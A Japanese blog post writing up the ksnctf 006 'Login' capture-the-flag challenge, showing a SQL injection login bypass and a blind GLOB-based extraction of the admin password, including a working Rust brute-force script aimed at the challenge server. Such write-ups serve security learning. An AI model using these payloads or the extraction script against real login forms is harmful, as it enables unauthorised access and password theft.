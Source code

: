 ```yaml
---
layout:   post
title:    "ksnctf 006 Login"
date:     2021-05-21 21:38:04 +0900
---
```


## ksnctf 006 Login
- 問題公開日: 2012/05/26
- ジャンル: web

### 謎解き
　正しい `admin` `pass` を入れる問題だ。

　と言っても特別ヒントはない。が、これはおそらく `SQLインジェクション` と呼ばれる脆弱性を突く問題だろう。

　ユーザーの管理は基本的にDB管理しているものだろう。となれば、ブラウザからの入力を受けて SQL を発行していると考えられる。

　この時、入力を通して、意図しない動作をユーザーが任意に行える場合がある。

　ということで、その方針で進めてみる。

### 適当に

```yaml
admin: admin
pass: ' OR 't' = 't
```

　と入れてみると、見事に画面が切り替わる。

　そこに寄れば、「`admin` のパスワードこそがフラグだ」と記されている。

　このページから分かることは様々あるが、重要なことは。

　まず、DBは `sqlite` である

　次に、クエリの構成が以下である。

```sql
SELECT * FROM user WHERE id='$id' AND pass='$pass'
```

　先ほどの入力はつまり、

```sql
SELECT * FROM user WHERE id='admin' AND pass='' OR 't' = 't'
```

　となっていたからSQLが通ったわけである。 OR 以降が必ず true になるため。

　さて、これらを踏まえて、早速 `admin` のパスワードを特定しよう。

　id については `admin` で間違いないが、 pass をどうやって特定しようか。

### 特定する

　色々考えたが、結局ブルートフォース案しか浮かばなかったので、それにする。

　SQLにはワイルドカードを利用出来る。即ち、

```sql
SELECT * FROM user WHERE id='admin' AND pass='' OR pass LIKE '%'
```

　という指定の仕方だ。 `%` は LIKE におけるワイルドカードであり、0文字以上の文字とヒットする。従って、上記のSQLは確実に通る。

　`_` もあり、これは任意の1文字とヒットする。

　これを使って、文字数を特定できる。一文字ずつ `_` を増やして入力を試してみると、

```sql
-- pass の長さは 21文字
SELECT * FROM user WHERE id='admin' AND pass='' OR pass LIKE '_____________________'
```

　であることが分かった。上記のSQLは通る。

　また、フラグの形式は `FLAG_......` であることも踏まえると、以下まで確定する。

```sql
-- `FLAG_` を除いた pass の長さは 16文字
SELECT * FROM user WHERE id='admin' AND pass='' OR pass LIKE 'FLAG_________________'
```

　FLAGに使われる文字は `[a-z]` `[A-Z]` `[0-9]` の62文字であり、ブルートフォースを仕掛けた場合、 62文字 * 16文字 = 992文字 である。それほど多くはない。

　というわけで何とかなりそうである。

### LIKE ではなく GLOB

　実は `sqlite` の `LIKE` は大文字と小文字を区別してくれない。

　そのため、ブルートフォースを仕掛ける前にSQLを修正する必要がある。

　`LIKE` ではなく `GLOB` を使うようにするということだ。

　パターンマッチングを利用する `GLOB` を用いる。

| LIKE | GLOB | 説明
|---|---|---|
| `%` | `*` | 任意の0文字以上 |
| `_` | `?` | 任意の1文字 |

　`GLOB` では `%` の代わりに `*` を、`_` の代わりに `?` を使う。従って、

```sql
-- GLOB ver
SELECT * FROM user WHERE id='admin' AND pass='' OR pass GLOB 'FLAG_????????????????'
```

　となる。

　これで抑えるべき事項は全てだ。

　後はブルートフォースを仕掛けるだけだ。手作業だと大変なので、プログラムで行う。

　毎度お馴染みRustの時間である。

### ブルートフォース

```rust
extern crate reqwest;

#[tokio::main]
async fn main() -> Result<(), Box<dyn std::error::Error>> {
    let strings = ["a","b","c","d","e","f","g","h","i","j","k","l","m","n","o","p","q","r","s","t","u","v","w","x","y","z","A","B","C","D","E","F","G","H","I","J","K","L","M","N","O","P","Q","R","S","T","U","V","W","X","Y","Z","0","1","2","3","4","5","6","7","8","9"];

    eprintln!("*** 開始 ***");
    
    let mut prefix: String = String::from("' OR pass GLOB 'FLAG_");
    let mut suffix = "*";
    
    for number in 1..17 {
        if number == 16 { suffix = ""; }
        for s in strings.iter() {
            let pass = format!("{}{}{}", prefix.to_string(), s, suffix);
            let params = [("id", "admin"), ("pass", &pass)];
            let client = reqwest::Client::new();
            let res = client.post("https://ctfq.u1tramarine.blue/q6/index.php")
                .form(&params)
                .send()
                .await?;

            // println!("{:#?}", res);
            
            if res.content_length() > Some(2000) {
                println!("{}: {:?}{}", number, res.content_length(), pass);
                prefix.push_str(s);
                break;
            }
        }
        eprintln!("*** next ***");
    }

    eprintln!("*** 終了 ***");
    Ok(())
}
```

　`FLAG_*` `FLAG_A*` `FLAG_AA*` のように0文字以上マッチ`*`を末尾につけながら、一文字ずつ特定している。

　丁度良い指標が無かったので、 `content_length` を使った。失敗した時のコンテンツの長さは 500 程度で、成功する 2200 程度だったので、これを元に正しいかどうかを判定した。

　Rust スキルも徐々に向上していて良い。良い。

### おしまい

　無事にFLAGをゲットできた。おしまい。

## 所感

　今回は問題を見た時に謎が分かってしまったため、ささっと出来てしまった。

　しいて謎となったのは、以下2点である。

- pass をどうやって特定しようかという点
- GLOB 句を探し当てるという点

　LIKE 句で上手くいかなくてそこで `mysql` じゃないということに気付いたのだから、なめていたと言われてもしょうがない。

　とはいえ、謎が分かったとしても実際に攻撃を仕掛けられるかどうかは違うわけで、ちゃんとFLAGを取れたのは良かった。

　しかし、ブルートフォースで良かったのだろうか。SQL文をあれこれしたら案外SELECT文で取れたりしたのだろうか。まあきっとそれもおいおい分かるに違いない。似た別の問題に出会った時にこの謎は解ける。

　ではこのへんで。
　